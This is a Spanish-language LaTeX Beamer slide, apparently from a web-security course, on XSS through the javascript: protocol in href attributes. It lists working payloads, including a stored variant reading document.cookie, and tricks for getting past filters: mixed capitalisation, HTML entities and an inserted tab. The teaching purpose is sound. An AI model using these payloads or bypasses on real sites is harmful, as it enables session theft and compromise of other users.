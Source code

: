 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS en href --- Protocolo javascript:}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Contexto --- inyección dentro de href
  \item El input se refleja/almacena dentro de \textless{}a href=\textquotedbl{}VALOR\textquotedbl{}\textgreater{}
  \item Filtros codifican \textless{} \textgreater{} \textquotedbl{} $\rightarrow$ no se puede cerrar el atributo ni inyectar etiquetas
  \item Pero si el contenido completo del href está bajo control $\rightarrow$ usar el protocolo javascript:
  \item Payload básico (Lab 29)
  \item \cmd{javascript:alert(document.domain)}
  \item $\rightarrow$ \textless{}a href=\textquotedbl{}javascript:alert(document.domain)\textquotedbl{}\textgreater{}
  \item $\rightarrow$ Al hacer clic, el navegador ejecuta el JS. NO requiere inyectar HTML.
  \item XSS almacenado en href (Lab 34)
  \item Aplicación almacena URLs en BD (p.ej., campo 'Website' del perfil de usuario).
  \item El filtro bloquea \textless{} \textgreater{} \textquotedbl{} pero permite javascript: como valor de href.
  \item Payload almacenado: javascript:alert(document.cookie)
  \item $\rightarrow$ Se ejecuta cada vez que cualquier usuario hace clic en el enlace.
  \item Bypass si 'javascript' está bloqueado como palabra
  \item \cmd{JaVaScRiPt:alert(1) $\leftarrow$ capitalización aleatoria}
  \item \cmd{javascript\&\#58;alert(1) $\leftarrow$ HTML entity para los dos puntos}
  \item \cmd{java\&\#09;script:alert(1) $\leftarrow$ tab (\&\#9;) entre java y script}
  \item \cmd{\&\#106;avascript:alert(1) $\leftarrow$ primera letra como HTML entity}
  \end{itemize}
\end{frame}
\end{document}
